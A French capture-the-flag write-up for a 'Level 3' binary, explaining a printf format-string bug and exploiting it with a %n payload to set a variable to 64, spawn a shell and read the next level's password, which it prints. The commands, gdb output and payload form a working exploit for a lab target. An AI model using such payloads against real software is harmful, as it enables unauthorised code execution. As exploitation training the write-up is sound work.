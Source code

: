 # Level 3

En décompilant le binaire on peut voir qu'il y a un call à la fonction `system` avec pour argument `/bin/sh` mais qu'elle n'est appelée que si la variable `m` (à l'adresse `0x804988c`) est égale à 64.  
Le binaire utilise ici la fonction `fgets`, qui est protégée contre les buffers overflow. Ce que récupère `fgets` devient le premier argument de la fonction `printf`. Mais l'appel à `printf` est mal codé : il aurait fallu écrire `printf("%s", buffer)`, et non `printf(buffer)`.  
La [page de manuel](https://linux.die.net/man/3/printf) de `printf` nous donne une piste :
> Code such as `printf(foo)`; often indicates a bug, since `foo` may contain a `%` character. If `foo` comes from untrusted user input, it may contain `%n`, causing the `printf()` call to write to memory and creating a security hole. 

Il faudra donc exploiter cette [faille de `printf`](https://en.wikipedia.org/wiki/Uncontrolled_format_string) pour écraser la valeur de la variable `m` et la remplacer par 64. [Voir aussi ce PDF pour plus de détails](http://julianor.tripod.com/bc/formatstring-1.2.pdf)

`printf` à une option `%n` qui permet d'écrire le nombre de caractère affiché à l'adresse d'une variable, et ainsi écrire la valeur `64` à `m`

```shell
~ gdb level3
(gdb) disas v
Dump of assembler code for function v:
[...]
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
[...]
End of assembler dump.
(gdb) quit
~ ./level3
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
~ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/level3
~ cat /tmp/level3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```